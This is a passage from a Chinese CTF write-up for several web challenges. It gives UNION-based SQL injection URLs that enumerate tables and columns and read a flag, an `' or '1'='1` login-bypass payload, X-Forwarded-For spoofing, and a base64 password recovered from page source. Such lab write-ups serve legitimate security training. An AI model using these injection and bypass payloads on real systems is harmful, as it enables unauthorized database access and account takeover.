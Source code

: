 ```
http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3,group_concat(table_name)  from information_schema.tables where table_schema=database() %23

http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3, group_concat(column_name)  from information_schema.columns where table_schema=database() and table_name= 'flag' %23

http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3, flag from flag %23
```



## 7、

SimpleSQLI    http://123.206.31.85:10006/

官方wp 

提交 `user=admin' or '1'='1`、 `pass=' or '1'='1`后回显：IP禁止访问，请联系本地管理员登陆，IP已被记录.

测试 `X-Forward-For:127.0.0.1`，这里通过Firefox插件X-Forwarded-For Header直接修改。

提交 `user=admin&pass=admin`/ `user=amdin&pass=1`后回显：Invalid credentials! Please try again!

**F12**查看源代码在5023行： `<!-- dGVzdDEyMw== -->`。

base64.decode后得到密码 `test123`。

登陆回显： `Theflagis:xxxxxxxxxxxxxxxxxxx`



emmmmmm 我是改完ip 爆破的

## 8、

听说备份了不少东西呢[web14](http://123.206.31.85:10014/)

源码泄露

![1555682805974](1555682805974.png)

> 
>





